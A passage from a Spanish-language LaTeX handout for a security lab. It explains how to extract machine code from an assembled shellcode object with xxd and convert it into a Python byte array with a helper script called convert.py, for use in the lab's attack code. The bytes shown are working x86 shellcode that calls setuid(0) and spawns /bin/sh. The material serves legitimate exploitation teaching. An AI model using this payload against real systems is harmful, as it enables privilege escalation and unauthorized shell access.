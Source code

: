En la impresión anterior, los números que se enmarcan son código máquina. Puede usar el comando \texttt{xxd} para imprimir el contenido del archivo binario y así obtener el código máquina del shellcode.

\begin{lstlisting}
$ xxd -p -c 20 mysh.o
7f454c4601010100000000000000000001000300
...
000000000000000000000000(*@\textbf{31db31c0b0d5cd80}@*)
(*@\textbf{31c050682f2f7368682f62696e89e3505389e131}@*)
(*@\textbf{d231c0b00bcd80}@*)00000000000000000000000000
...
\end{lstlisting}
 

\paragraph{Usando el shellcode en el código de ataque.}
En nuestros ataques, necesitamos incluir el shellcode dentro de nuestro código de ataque sea en Python o en C.
Se suele guardar el código máquina en un arreglo, pero convertir este código para asignarlo a un arreglo en Python o en C, es una tarea un tanto tediosa si se hace manualmente, especialmente si este procedimiento se tiene que repetir varias veces durante el laboratorio.
Para este propósito hemos escrito un programa en Python para ayudarlo en este proceso. Solamente copie el shellcode obtenido usando el comando \texttt{xxd} y péguelo en el código que se muestra a continuación, entre las líneas marcadas por \texttt{"""}. El código puede ser descargado del sitio oficial del laboratorio.


\begin{lstlisting}[caption=\texttt{convert.py}] 
#!/usr/bin/env python3

# Run "xxd -p -c 20 mysh.o", and
# copy and paste the machine code part to the following:
ori_sh ="""
31db31c0b0d5cd80
31c050682f2f7368682f62696e89e3505389e131
d231c0b00bcd80
"""

sh = ori_sh.replace("\n", "")

length  = int(len(sh)/2)
print("Length of the shellcode: {}".format(length))
s = 'shellcode= (\n' + '   "'
for i in range(length):
    s += "\\x" + sh[2*i] + sh[2*i+1]
    if i > 0 and i % 16 == 15:
       s += '"\n' + '   "'
s += '"\n' + ").encode('latin-1')"
print(s)
\end{lstlisting}

El programa \texttt{convert.py} imprimirá el siguiente código en Python, el cual puede incluir en su código de ataque. Este guarda el shellcode dentro de un arreglo Python.
 
